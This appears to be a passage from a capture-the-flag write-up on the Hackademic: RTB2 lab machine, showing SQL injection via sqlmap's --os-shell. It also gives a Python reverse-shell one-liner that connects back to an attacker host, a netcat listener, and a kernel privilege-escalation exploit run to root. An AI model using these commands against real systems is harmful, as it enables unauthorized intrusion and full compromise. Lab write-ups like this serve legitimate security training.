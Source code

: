Nice, we successfully dumped the Joomla logins, however the passwords are in the form of md5($pass:$salt), which means we can't easily do a reverse lookup on it. After brainfarting for a while, I came to a sudden realization that there was one old trick that I hadn't tried in a long while: Uploading a reverse OS shell through SQL injection Arbitrary File Write (using INTO OUTFILE or INTO DUMPFILE) and Arbitrary File Read (using LOAD_FILE). `sqlmap` has a useful one-liner with its `--os-shell` parameter:

```
root@kali:~# sqlmap -u "http://192.168.100.7:666/index.php?option=com_abc&letter=A" --os-shell
os-shell> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.101",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Having an os-shell is useful, but I wanted a more reliable shell, hence I used it to open up another reverse shell received using `netcat`.

```
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.1.101] from (UNKNOWN) [192.168.1.100] 46230
/bin/sh: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@HackademicRTB2:/var/www$
```

Since the Linux Kernel version is 2.6.32, I wonder if the privilege escalation exploit that I used in Hackademic: RTB1 also works here...

```
www-data@HackademicRTB2:/tmp$ gcc -o 15285 15285.c -pthread
www-data@HackademicRTB2:/tmp$ ./15285 
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc08cac4c
 [+] Resolved default_security_ops to 0xc0773340
 [+] Resolved cap_ptrace_traceme to 0xc02f5060
 [+] Resolved commit_creds to 0xc016dd80
 [+] Resolved prepare_kernel_cred to 0xc016e0c0
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
# whoami
root

# ls /root

Desktop  Key.txt

# cat /root/Key.txt
iVBORw0KGgoAAAANSUhEUgAAAvQAAAFYCAIAAACziP9JAAAACXBIWXMAAAsTAAALEwEAmpwYAAAg
AElEQVR4nOy9eZhdVZXw/bu35iFVlXmgUiQhBAIJEGKMAQGDb1rpbj5EjYK8KIoy+SniIyC2Q4uC
Nn5tOzI4dAvaKI2CLTgEWmYIGTCBQAbIUEkqVZWa5+lO3x/nXefdt4Y71D3DvbfW78nDk1C3zll3
n332XnuNoCiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiK
oiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiKoiiK
// Output truncated
```
